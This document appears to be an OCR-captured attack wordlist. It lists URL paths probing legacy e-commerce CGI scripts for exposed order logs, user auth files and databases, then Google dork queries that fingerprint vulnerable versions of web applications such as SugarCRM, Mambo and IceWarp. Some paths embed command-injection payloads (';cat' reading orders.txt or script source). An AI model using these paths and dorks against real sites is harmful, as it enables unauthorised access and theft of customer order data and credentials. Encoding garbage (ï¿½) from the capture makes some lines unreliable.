 /scripts/shop/auth_data/auth_user_file.txt
/cgi-bin/cart32/whatever-OUTPUT.txt
/Shopping%20Cart/shopdbtest.asp
/cgi/shop/auth_data/auth_user_file.txt
/shop/shopping350.mdb
/cgi-bin/store/Authorize_Net.pl
/scripts/DCShop/orders/orders.txt
/store/log_files/commerce_user_lib.pl
/shopping/shopadmin.asp
/cgi-bin/orderlog.txt
/cgi-bin/webcart/webcart.cgi?
CONFIG=mountain&CHANGE=YES&NEXTPAGE=;cat
%20../../webcart/system/orders/orders.txt|&CODE=PHOLD;;;
/cool-logs/mylog.html
/cgibin/shop.pl/page=;cat%20shop.pl
/htbin/shop.pl/page=;cat%20shop.pl
/cgi-win/orders/orders.txt
/cgi-bin/%20shopper.cgi?
preadd=action&key=PROFA&template=order1.txt
/SHOP/shopdbtest.asp
/cgi/pagelog.cgi
/php/mlog.phtml
/cgi-bin/shop/apdproducts.mdb
/htbin/shop/auth_data/auth_user_file.txt
/server%20logfile;;;
/database/metacart.mdb
/cgi-local/shop/orders/orders.txt
" 1999-2004 FuseTalk Inc" -site:fusetalk.com
"2003 DUware All Rights Reserved"
"2004-2005 ReloadCMS Team."
"2005 SugarCRM Inc. All Rights Reserved" "Powered By SugarCRM"
"Active Webcam Page" inurl:8080
"Based on DoceboLMS 2.0"
"BlackBoard 1.5.1-f | ï¿½ 2003-4 by Yves Goergen"
"BosDates Calendar System " "powered by BosDates v3.2 by BosDev"
"Calendar programming by AppIdeas.com" filetype:php
"Copyright 2000 - 2005 Miro International Pty Ltd. All rights
reserved" "Mambo is Free Software
released"
"Copyright 2004 ï¿½ Digital Scribe v.1.4"
"Copyright ï¿½ 2002 Agustin Dondo Scripts"
"CosmoShop by Zaunz Publishing" inurl:"cgibin/cosmoshop/lshop.cgi"
-V8.10.106 -V8.10.100 -V.8.10.85 -V8.10.108 -V8.11*
"Cyphor (Release:" -www.cynox.ch
"delete entries" inurl:admin/delete.asp
"driven by: ASP Message Board"
"Enter ip" inurl:"php-ping.php"
"IceWarp Web Mail 5.3.0" "Powered by IceWarp"
"Ideal BB Version: 0.1" -idealbb.com
"index of" intext:fckeditor inurl:fckeditor
"inurl:/site/articles.asp?idcategory="
"Maintained with Subscribe Me 2.044.09p"+"Professional"
inurl:"s.pl"
"Mimicboard2 086"+"2000 Nobutaka Makino"+"password"+"message"
inurl:page=1
"News generated by Utopia News Pro" | "Powered By: Utopia News
Pro"
"Obtenez votre forum Aztek" -site:forum-aztek.com
"Online Store - Powered by ProductCart"
"PhpCollab . Log In" | "NetOffice . Log In" |
(intitle:"index.of." intitle:phpcollab|netoffice
inurl:phpcollab|netoffice -gentoo)
"portailphp v1.3" inurl:"index.php?affiche" inurl:"PortailPHP"
-site:safari-msi.com